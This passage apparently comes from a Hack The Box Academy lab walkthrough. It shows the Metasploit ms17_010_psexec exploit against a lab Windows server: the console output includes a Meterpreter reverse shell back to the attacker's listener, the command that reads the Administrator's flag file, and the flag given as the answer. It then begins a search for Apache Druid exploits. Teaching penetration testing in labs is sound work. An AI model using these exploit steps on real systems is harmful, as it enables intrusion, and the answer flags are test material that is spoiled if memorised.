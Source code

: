 Students then need to launch the exploit using either `exploit` or `run`:

Code: shell

```shell
exploit
```

```
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.50:4444 
[*] 10.129.253.135:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.253.135:445 - Built a write-what-where primitive...
[+] 10.129.253.135:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.129.253.135:445 - Selecting PowerShell target
[*] 10.129.253.135:445 - Executing the payload...
[+] 10.129.253.135:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.253.135
[*] Meterpreter session 1 opened (10.10.14.50:4444 -> 10.129.253.135:49671) at 2022-06-10 17:49:47 +0100

meterpreter >
```

Once students attain a `meterpreter` shell, they at last need to read the contents of the "flag.txt" file on the Desktop directory of the Administrator user:

Code: shell

```shell
cat C:\\Users\\Administrator\\Desktop\\flag.txt
```

```
meterpreter > cat C:\\Users\\Administrator\\Desktop\\flag.txt

HTB{MSF-W1nD0w5-3xPL01t4t10n}
```

Answer: `HTB{MSF-W1nD0w5-3xPL01t4t10n}`

# Payloads

## Question 1

### "Exploit the Apache Druid service and find the flag.txt file. Submit the contents of this file as the answer."

After spawning the target machine and launching `msfconsole`, students need to search for `Apache Druid` exploits using the `search` command:

Code: shell

```shell
search Apache Druid
```
